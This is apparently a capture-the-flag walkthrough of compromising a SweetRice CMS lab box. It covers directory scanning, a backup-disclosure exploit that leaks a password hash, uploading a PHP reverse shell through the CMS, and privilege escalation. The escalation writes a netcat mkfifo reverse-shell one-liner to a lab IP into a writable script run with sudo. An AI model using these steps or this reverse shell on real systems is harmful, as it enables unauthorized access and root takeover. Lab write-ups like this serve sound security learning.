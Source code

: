 basic nmap scan  

![nmap](imgs/nmap.png "nmap")


feroxbuster found a lot of directories

```
feroxbuster -u http://IP -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
![fero](imgs/fero.png "fero")


by going checking `/content/`now we know that servers uses SweetRice CMS

![content](imgs/content.png "content")

i checked for exploits using `searchsploit`

![exploits](imgs/exploits.png "exploits")

i checked `SweetRice 1.5.1 - Backup Disclosure` to gain more info

`cat /usr/share/exploitdb/exploits/php/webapps/40718.txt`

![dbexp](imgs/dbexp.png "dbexp")

i tested if our server has `mysql_backup` like in PoC


```
http://IP/content/inc/mysql_backup
```

![mysql](imgs/mysql.png "mysql")

there is `.sql` file, i checked whats inside to find something interesting

![sql](imgs/sql.png "sql")

i asked chatGPT to decode this particular part

![chat](imgs/chat.png "chat")

and we found login credentials to CMS after using crackstation to find the hash value

![login](imgs/login.png "login")

![manager](imgs/manager.png "manager")

once we are inside i found that we can implement our own code in `ads` section, so i will test this by using `php reverse webschell` from pentestmonkey

![ads](imgs/ads.png "ads")

now by going to `http://IP/content/inc/ads` we see our file, we can use it to test if our shell is working

![shell](imgs/shell.png "shell")

we successfully logged as `www-data` and got `itguy` flag

![user](imgs/user.png "user")

now using `sudo -l` and checking the `backup.pl` file mentioned in sudo -l

![sudol](imgs/sudol.png "sudol")

the script is executing another script located in `/etc/copy.sh`, sadly we cant edit backup.pl file but maybe the other file will be more helpful, the other file is writeable and already has some shell connection hmm

![copy](imgs/copy.png "copy")

now we need to write our own reverse shell script into `/etc/copy.sh`

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.115.41 4445 >/tmp/f" > /etc/copy.sh
```

using command to spawn a root shell


```
sudo /usr/bin/perl /home/itguy/backup.pl
```

![perl](imgs/perl.png "perl")

now we have root access and root flag

![root](imgs/root.png "root")
